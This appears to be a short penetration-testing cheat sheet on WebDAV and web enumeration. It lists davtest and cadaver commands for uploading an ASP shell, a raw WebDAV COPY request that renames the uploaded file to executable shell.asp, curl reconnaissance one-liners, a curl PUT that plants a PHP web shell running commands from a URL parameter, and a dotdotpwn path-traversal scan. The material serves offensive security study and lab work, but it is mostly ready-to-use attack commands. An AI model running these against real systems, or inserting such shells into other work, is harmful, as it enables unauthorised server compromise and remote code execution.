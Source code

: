 ### Webdav

### Davtest

```
./davtest.pl -URL http://*target*/Scripts -uploadfile /var/www/html/shell.asp.txt -uploadloc shell.asp.txt
```

```
root@kali:~/Downloads/davtest-1.0# nc *target* 80 -vv
10.11.1.13: inverse host lookup failed: Unknown host
(UNKNOWN) [*target*] 80 (http) open
COPY /Scripts/shell.asp.txt HTTP/1.1
HOST: *target*
Destination: http://*target*/Scripts/shell.asp
Overwrite: T
```

### cadaver

Cadaver http://*target*/webdav

Username: wampp

Password:

Webdav> put.txt

### Get header

focus more on the web apps or hidden directories here

curl -i *target*

### Get everything web

curl -i -L *target*

### Check for title and all links

curl *target* -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

### Look at page with just text

curl *target* -s -L | html2text -width '99' | uniq

### Check if it is possible to upload

```
curl -v -X OPTIONS http://*target*/

curl -v -X PUT -d '<?php system(*dollar-sign*_GET["cmd"]); ?>' http://*target*/test/shell.php

dotdotpwn.pl -m http -h *target* -M GET -o unix

```
### identify data entry points

